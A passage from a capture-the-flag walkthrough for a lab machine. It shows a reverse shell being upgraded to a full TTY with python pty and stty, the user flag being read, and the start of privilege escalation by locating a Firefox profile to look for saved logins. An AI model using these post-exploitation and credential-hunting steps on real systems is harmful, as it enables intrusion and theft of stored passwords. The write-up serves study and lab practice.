       export PATH=/bin:/usr/bin:$PATH
      ```
6. Spawn a __tty shell__:
   ```console
   python -c 'import pty; pty.spawn("/bin/bash")'
   # Ctrl + z
   stty raw -echo
   fg
   export SHELL=bash
   export TERM=xterm-256color
   ```
7. Find `user.txt`:
   ```console
   cat /home/ayush/user.txt
   # eef39126d9c3b4b8a30286970dc713e1
   ```

---

## PART 4 : Attempt Privilege Escalation (ayush -> root)

1. While inside `ayush` shell:
   ```console
   ls -lah ~
   # total 40K
   # drwx------ 6 ayush ayush 4.0K May 26 09:24 .
   # drwxr-xr-x 4 root  root  4.0K Oct 28  2018 ..
   # drwxr-xr-x 2 root  root  4.0K Oct 28  2018 .app
   # -rw------- 1 root  root     0 Nov 24 23:57 .bash_history
   # -rw-r--r-- 1 ayush ayush  220 Oct 28  2018 .bash_logout
   # -rwxr-xr-x 1 root  root    22 Oct 28  2018 .bashrc
   # drwx------ 3 ayush ayush 4.0K May 26 09:24 .gnupg
   # drwx------ 3 ayush ayush 4.0K May 26 09:57 mail
   # drwx------ 4 ayush ayush 4.0K Sep 29  2018 .mozilla
   # -rw-r--r-- 1 ayush ayush  807 Oct 28  2018 .profile
   # -rw------- 1 ayush ayush   33 Oct 28  2018 user.txt

   cd .mozilla/firefoz

   ls -lah
   # total 20K
   # drwx------  4 ayush ayush 4.0K Sep 29  2018  .
   # drwx------  4 ayush ayush 4.0K Sep 29  2018  ..
   # drwx------ 10 ayush ayush 4.0K Oct 27  2018  bzo7sjt1.default
   # drwx------  4 ayush ayush 4.0K Oct 15  2018 'Crash Reports'
   # -rw-r--r--  1 ayush ayush  104 Sep 29  2018  profiles.ini

   cat profiles.ini
   # [General]
   # StartWithLastProfile=1
   # 
   # [Profile0]
   # Name=default
   # IsRelative=1
   # Path=bzo7sjt1.default
   # Default=1
   ```
   __NOTE(S)__:
   - `profiles.ini` contains firefox profile
     - The `Path` is the directory containing relevant files to the profiles
     - Profiles may contain __saved logins__ by the user
